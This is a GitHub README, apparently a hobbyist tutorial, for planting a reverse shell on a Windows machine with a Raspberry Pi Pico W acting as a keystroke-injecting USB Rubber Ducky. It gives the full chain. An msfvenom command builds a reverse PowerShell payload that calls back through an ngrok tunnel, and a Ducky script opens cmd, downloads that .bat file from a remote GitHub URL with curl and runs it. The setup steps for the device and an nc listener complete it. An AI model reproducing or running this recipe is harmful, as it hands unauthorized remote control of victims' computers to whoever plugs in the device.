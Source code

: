 # Reverse-shell-by-usb-rubber-ducky
## Introduction
A reverse shell is a type of shell in which the target machine communicates back to the attacker's machine. It is a technique often used in hacking and penetration testing for remote access to a system<br><br>
The USB Rubber Ducky is a type of programmable USB device which looks like a regular USB flash drive, but it's designed to function as a keyboard emulator. When plugged into a computer, the USB Rubber Ducky can quickly type pre-programmed keystroke payloads, essentially simulating a human typing at a very fast rate.
## Payload for reverse shell
To obtain a reverse shell from a target machine, you can utilize the MSFVenom tool to generate a Windows reverse PowerShell payload. This payload will allow you to establish a connection back to your machine, giving you remote access to the target system<br><br>
For port forwarding
```ngrok tcp 8080```<br><br>
![ngrok](https://github.com/aayushdangol16/Reverse-shell-by-rubber-ducky/blob/main/ngrok.png)<br><br>
![ngrok1](https://github.com/aayushdangol16/Reverse-shell-by-rubber-ducky/blob/main/ngrok1.png)<br><br>
Generate windows reverse PowerShell payload<br>
```msfvenom -p cmd/windows/reverse_powershell lhost=0.tcp.in.ngrok.io lport=10448 > ayush.bat ```<br><br>
![msf](https://github.com/aayushdangol16/Reverse-shell-by-rubber-ducky/blob/main/msf.png)
## Rasberry pi pico w as rubber ducky
1. Clone the repo to get a local copy of the files. `git clone https://github.com/dbisu/pico-ducky.git`
2. Download [CircuitPython for the Raspberry Pi Pico W](https://circuitpython.org/board/raspberry_pi_pico_w/). *Updated to 8.0.0
3. Plug the device into a USB port while holding the boot button. It will show up as a removable media device named `RPI-RP2`.
4. Copy the downloaded `.uf2` file to the root of the Pico (`RPI-RP2`). The device will reboot and after a second or so, it will reconnect as `CIRCUITPY`.
5. Download `adafruit-circuitpython-bundle-8.x-mpy-YYYYMMDD.zip` [here](https://github.com/adafruit/Adafruit_CircuitPython_Bundle/releases/latest) and extract it outside the device.
6. Navigate to `lib` in the recently extracted folder and copy `adafruit_hid` to the `lib` folder on your Raspberry Pi Pico.
7. Copy `adafruit_debouncer.mpy` and `adafruit_ticks.mpy` to the `lib` folder on your Raspberry Pi Pico.
8. Copy `asyncio` to the `lib` folder on your Pico.
9. Copy `adafruit_wsgi` to the `lib` folder on your Pico.
10. Copy `boot.py` from your clone to the root of your Pico.
11. Copy `duckyinpython.py`, `code.py`, `webapp.py`, `wsgiserver.py` to the root folder of the Pico.
## Setting up an attacker server and a Ducky script
Upload the Windows reverse PowerShell payload (ayush.bat) to your server; in my case, I have uploaded it to GitHub.<br><br>
Create Ducky script and save as ```payload.dd``` on root folder of pico.
```
DELAY 3000
GUI r
DELAY 200
STRING cmd
ENTER
DELAY 200
STRING cd OneDrive 
ENTER
DELAY 200
STRING cd Desktop
ENTER
DELAY 200
STRING curl "https://raw.githubusercontent.com/aayushdangol16/payload/main/ayush.bat" > ayush.bat
ENTER
DELAY 300
STRING ayush.bat 
ENTER

```
## Attacking
Establish a listening endpoint on port 8080 ```nc -lvnp 8080```<br><br>
![nc](https://github.com/aayushdangol16/Reverse-shell-by-rubber-ducky/blob/main/nc.png)<br><br>
Establish a connection between the Raspberry Pi and the target machine. The Ducky script will execute automatically, facilitating the provision of a reverse shell from the targeted machine to the attacker's machine.<br><br>
![shell](https://github.com/aayushdangol16/Reverse-shell-by-rubber-ducky/blob/main/shell.png)<br><br>
